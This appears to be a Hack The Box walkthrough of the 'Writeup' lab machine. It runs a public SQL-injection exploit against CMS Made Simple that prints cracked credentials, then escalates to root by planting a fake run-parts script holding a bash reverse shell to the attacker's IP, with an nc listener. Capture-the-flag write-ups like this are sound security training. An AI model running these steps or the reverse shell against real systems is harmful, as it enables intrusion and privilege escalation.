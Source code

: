 ```yaml
---
title: "Hackthebox Writeup Walkthrough"
date: 2021-07-04 21.00 
categories: [Hackthebox, Linux]
tags: [abusing path variable,SQLi]
author: CEngover
image: /assets/img/posts/writeup/writeup.png
---
```

Hello everyone. In this article, I'm going to try to explain writeup box solution which is one of the free hackthebox machines.

## Reconnaissance
Let's start with enumeration process. I added machine's ip into my hosts file. If you want to add too, you can add ip with `sudo echo "10.10.10.138     writeup.htb" >> /etc/hosts` easly.

After this small step, let's do a nmap scanning.

```
cengover@kali:~/htb/writeup$ sudo nmap -sC -sV -oA nmap/writeup-open-ports 10.10.10.138
[sudo] password for cengover: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 12:32 EDT
Nmap scan report for 10.10.10.138
Host is up (0.093s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As seen in the above, we have 2 ports open. They're running ssh and http services. We cannot do directory fuzzing because the machine is banning us for a while. Let's continue with manuel enumeration. We can check that is there a `robots.txt, admin.php, login.php` etc. We can get some information by visiting robots.txt file and it says that there is also folder named `/writeup`.

```bash
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```

![Writeup index page](/assets/img/posts/writeup/writeup_index.png)

After checking source code of the index page, we found that this page was built by CMS Made Simple. 

```bash
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

## Getting Initial Access

We can try to search a exploit that belongs to this cms. After a little bit searching, I found  a sqli exploit. Once we run this exploit, we'll get following informations.

```bash
cengover@kali:~/htb/writeup$ python3 46635.py -u http://writeup.htb/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807  
[+] Username found: jkr  
[+] Email found: jkr@writeup.htb  
[+] Password found: 62def4866937f08cc13bab43bb14e6f7  
[+] Password cracked: raykayjay9
```

After cracking the password, we can get initial access with this creds.

![Getting User](/assets/img/posts/writeup/getting_user.png)

I ran pspy tool for monitoring the processes. I saw that after every succesfull login the following commands are running.

```bash
2021/07/04 13:47:12 CMD: UID=0    PID=24398  | sshd: [accepted]
2021/07/04 13:47:12 CMD: UID=0    PID=24399  | sshd: [accepted]  
2021/07/04 13:47:24 CMD: UID=0    PID=24400  | sshd: jkr [priv]  
2021/07/04 13:47:24 CMD: UID=0    PID=24401  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/04 13:47:24 CMD: UID=0    PID=24402  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/04 13:47:24 CMD: UID=0    PID=24403  | uname -rnsom 
2021/07/04 13:47:24 CMD: UID=0    PID=24404  | sshd: jkr [priv]  
```

Let's see where run-parts command is located.

```bash
jkr@writeup:~$ which run-parts
/bin/run-parts
```

It's in `bin` folder so the folder is last folder in path search order which means if we can inject a custom run-parts command one of these path, our command can be triggered. Let's see what we can do. First of all, check these paths permissions.

```bash
jkr@writeup:~$ ls -ld /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19  2019 /bin
drwxr-xr-x 2 root root   4096 Aug 23  2019 /sbin
drwxr-xr-x 2 root root  20480 Aug 23  2019 /usr/bin
drwx-wsr-x 2 root staff 20480 Apr 19  2019 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Apr 19  2019 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Aug 23  2019 /usr/sbin
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ 
```

As seen in the above `jkr` is member of staff group and this group has privileges on `/usr/local/bin` and `/usr/local/sbin` directories. We can create a reverse shell named run-parts and put it to one of these directories. 

```bash
jkr@writeup:/usr/local/bin$ nano run-parts
jkr@writeup:/usr/local/bin$ cat run-parts
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.173/8080 0>&1
jkr@writeup:/usr/local/bin$ chmod +x run-parts
jkr@writeup:/usr/local/bin$ which run-parts
/usr/local/bin/run-parts

```


![Getting Root](/assets/img/posts/writeup/getting_root.png)

Firstly, we need to set a listener by running this command `nc -lvnp 8080`. After creating new ssh session, we have to get a root shell on the box.


